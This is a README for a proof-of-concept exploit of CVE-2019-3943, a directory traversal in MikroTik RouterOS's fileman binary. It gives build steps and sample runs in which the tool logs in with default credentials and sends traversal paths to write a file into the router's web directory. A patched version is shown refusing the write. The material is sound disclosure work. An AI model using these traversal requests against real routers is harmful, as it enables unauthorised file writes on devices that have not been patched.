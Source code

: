 # CVE-2019-3943 Proof of Concept

This is an implementation of CVE-2019-3943 which is a directory traversal vulnerability affecting the fileman binary in Router OS. This vulnerability was patched in 6.44RC1. See Tenable's advisory at: https://www.tenable.com/security/research/tra-2019-16 

The PoC creates a browseable file at /webfig/lol.txt. The contents of the file is "hello!" The PoC has the default credentials hard coded in (admin/). If you need to test other creds then you need to update the code.

## Compilation
This code was tested on Ubuntu 16.04. Install the following dependencies:

```sh
sudo apt install libboost-dev-all cmake
```

To compile simply do the following:

```sh
cd routeros/poc/cve_2019_3943/
mkdir build
cd build/
cmake ..
make
```

## Usage

Against 6.42.12:

```sh
albinolobster@ubuntu:~/routeros/poc/cve_2019_3943/build$ curl http://192.168.1.15/webfig/lol.txt
<html>
<head><title>Error 404: Not Found</title></head>
<body>
<h1>Error 404: Not Found</h1>
</body>
</html>
albinolobster@ubuntu:~/routeros/poc/cve_2019_3943/build$ ./cve_2019_3943_poc -i 192.168.1.15 -p 8291
req: {bff0005:1,uff0006:1,uff0007:6,s1:'//./.././.././../pckg/lol',Uff0001:[72,1]}
resp: {uff0003:2,uff0006:1,Uff0001:[],Uff0002:[72,1]}
req: {bff0005:1,uff0006:2,uff0007:6,s1:'//./.././.././../pckg/lol/home',Uff0001:[72,1]}
resp: {uff0003:2,uff0006:2,Uff0001:[],Uff0002:[72,1]}
req: {bff0005:1,uff0006:3,uff0007:6,s1:'//./.././.././../pckg/lol/home/web/',Uff0001:[72,1]}
resp: {uff0003:2,uff0006:3,Uff0001:[],Uff0002:[72,1]}
req: {bff0005:1,uff0006:4,uff0007:6,s1:'//./.././.././../pckg/lol/home/web/webfig',Uff0001:[72,1]}
resp: {uff0003:2,uff0006:4,Uff0001:[],Uff0002:[72,1]}
req: {bff0005:1,uff0006:5,uff0007:1,s1:'//./.././.././../pckg/lol/home/web/webfig/lol.txt',Uff0001:[72,1]}
resp: {ufe0001:1,uff0003:2,uff0006:5,Uff0001:[],Uff0002:[72,1]}
req: {bff0005:1,ufe0001:1,uff0006:6,uff0007:2,r5:[104,101,108,108,111,33,10],Uff0001:[72,1]}
resp: {uff0003:2,uff0006:6,Uff0001:[],Uff0002:[72,1]}
albinolobster@ubuntu:~/routeros/poc/cve_2019_3943/build$ curl http://192.168.1.15/webfig/lol.txt
hello!
albinolobster@ubuntu:~/routeros/poc/cve_2019_3943/build$ 
```

Against 6.44.2
```sh
albinolobster@ubuntu:~/routeros/poc/cve_2019_3943/build$ curl http://192.168.1.14/webfig/lol.txt
<html>
<head><title>Error 404: Not Found</title></head>
<body>
<h1>Error 404: Not Found</h1>
</body>
</html>
albinolobster@ubuntu:~/routeros/poc/cve_2019_3943/build$ ./cve_2019_3943_poc -i 192.168.1.14 -p 8291
req: {bff0005:1,uff0006:1,uff0007:6,s1:'//./.././.././../pckg/lol',Uff0001:[72,1]}
resp: {uff0003:2,uff0004:2,uff0006:1,uff0008:16646153,Uff0001:[],Uff0002:[72,1]}
Not permitted
albinolobster@ubuntu:~/routeros/poc/cve_2019_3943/build$ curl http://192.168.1.14/webfig/lol.txt
<html>
<head><title>Error 404: Not Found</title></head>
<body>
<h1>Error 404: Not Found</h1>
</body>
</html>
albinolobster@ubuntu:~/routeros/poc/cve_2019_3943/build$ 
```